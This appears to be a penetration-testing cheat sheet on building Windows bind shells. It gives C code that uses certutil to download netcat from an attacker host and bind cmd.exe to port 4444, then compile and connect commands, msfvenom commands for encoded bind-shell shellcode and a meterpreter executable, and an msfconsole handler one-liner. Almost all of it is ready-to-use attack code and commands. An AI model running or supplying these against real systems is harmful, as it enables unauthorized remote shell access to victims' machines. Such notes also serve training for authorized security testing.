 #### Using C to create a bind shell on Windows

##### File winshell.c
This file will:
1. Using the native "certuil.exe", download nc.exe.txt from the kali box and save it as C:\windows\system32\nc.exe
2. Create a listening socket on TCP 4444 (Windows Machine)
```
#include <stdlib.h>
#include <windows.h>
int main ()
{

        int i;

        i = system ("certutil -urlcache -split -f http://192.168.119.152/nc.exe.txt c:\\windows\\system32\\nc.exe");
        Sleep(10000); // 10 seconds (10000 milliseconds)
        i = system ("nc.exe -nlvp 4444 -e cmd.exe");

                return 0;
}
```
##### Compile winshell.c
```
sudo i686-w64-mingw32-gcc winshell.c -o winshell.exe
```
##### Connect Windows shell from attacker box
```
nc -nv 192.168.152.10 4444
```

#### Generating the Payload
```
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp LPORT=4444 EXITFUNC=thread -e x86/xor_dynamic -b "\x00\x09\x0a\x1a\x10" -f python
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp LPORT=4445 -e x86/shikata_ga_nai -b "\x00\x09\x0a\x1a\x10" -f python
```

#### Connect to Bind Shell from multi handler

##### Create exploit to run on windows box (creating bind shell)
Replace Lhost with the windows box you are attacking
```
msfvenom -p windows/meterpreter/bind_tcp LHOST=10.11.1.14 LPORT=40000 -f exe > bind.exe
```


##### Connect to the bind shell - Automatic
Replace RHOST with the IP of the windows host you are attacking
```
msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.14; set PAYLOAD windows/meterpreter/bind_tcp; set rhost 10.11.1.14; set lport 40000; exploit"
```
